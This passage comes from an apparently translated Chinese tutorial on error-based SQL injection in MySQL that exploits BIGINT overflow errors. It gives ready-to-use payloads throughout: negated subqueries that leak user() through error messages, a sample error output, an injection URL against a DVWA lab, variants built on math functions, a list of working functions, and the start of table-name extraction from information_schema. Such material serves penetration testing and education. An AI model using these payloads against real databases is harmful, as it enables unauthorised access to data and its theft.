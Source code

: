 ```
!(select*from(select user())x)-~0

(select(!x-~0)from(select(select user())x)a)

(select!x-~0.from(select(select user())x)a)

```

举例来说，我们可以像下面一样，在一个查询语句中进行注入操作。

```
mysql> select username, password from users where id='1' or !(select*from(select user())x)-~0;
ERROR 1690 (22003): BIGINT value is out of range in '((not((select 'root@localhost' from dual))) - ~(0))'

```

<http://localhost/dvwa/vulnerabilities/sqli/?id=1' or !(select*from(select user())x)-~0-- -|&Submit=Submit#>

![enter image description here](http://drops.javaweb.org/uploads/images/ee68e44ce6eb0ed46eda9aa9a7d1de45ce192e93.jpg)

利用这种基于BIGINT溢出错误的注入手法，我们可以几乎可以使用MySQL中所有的数学函数，因为它们也可以进行取反，具体用法如下所示：

```
select !atan((select*from(select user())a))-~0; 
select !ceil((select*from(select user())a))-~0;
select !floor((select*from(select user())a))-~0;

```

下面的我们已经测试过了，如果你愿意的话，还可以找到更多:)

```
HEX
IN
FLOOR
CEIL
RAND
CEILING
TRUNCATE
TAN
SQRT
ROUND
SIGN

```

0x003 提取数据
=====

提取数据的方法，跟其他注入攻击手法中的一样，这里只做简单介绍。

首先，我们来获取表名：

```
!(select*from(select table_name from information_schema.tables where table_schema=database() limit 0,1)x)-~0

```
